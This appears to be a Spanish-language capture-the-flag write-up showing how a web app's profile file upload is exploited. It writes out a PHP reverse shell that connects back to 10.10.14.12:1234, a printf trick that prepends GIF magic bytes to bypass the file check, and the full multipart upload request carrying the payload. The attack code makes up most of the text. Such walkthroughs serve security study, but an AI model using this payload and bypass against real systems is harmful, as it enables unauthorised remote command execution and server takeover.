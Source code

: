 `
- En la pestaña **profiles**, sistema de subida de archivos:

![](./screenshots/upload_image.png)

- Se pueden subir archivos malisioso?
- Si vemos el link de la image que aparece por defecto podemos ver que se estan guardando en la ruta `/storage/files/'img'`

##### subida de archivos

- Archivo a subir:

```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'");
?>
```

- resultado:

```bash
{"error":{"message":"Invalid file detected"}}
```

- se esta comprobando el archivo

- Se puede burlar? 
  - Después de varias pruebas parece que comprueba los `magic bytes` del archivo.

- Agregamos los `magic bytes` de un archivo gif a 'rce.php' con `printf`:

```bash
(printf '\x47\x49\x46\x38\x37\x61'; cat rce.php) > reverse.php
```

```bash
------geckoformboundaryb0550b0167eb54be6b6b010e651f1cf9
Content-Disposition: form-data; name="_token"

E3hPRw7z9RCThp7t549pne2XXmqaIcWOnGfOXyZj
------geckoformboundaryb0550b0167eb54be6b6b010e651f1cf9
Content-Disposition: form-data; name="upload"; filename="reverse.php"
Content-Type: image/jpg

GIF87a<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'");
?>

------geckoformboundaryb0550b0167eb54be6b6b010e651f1cf9--
```
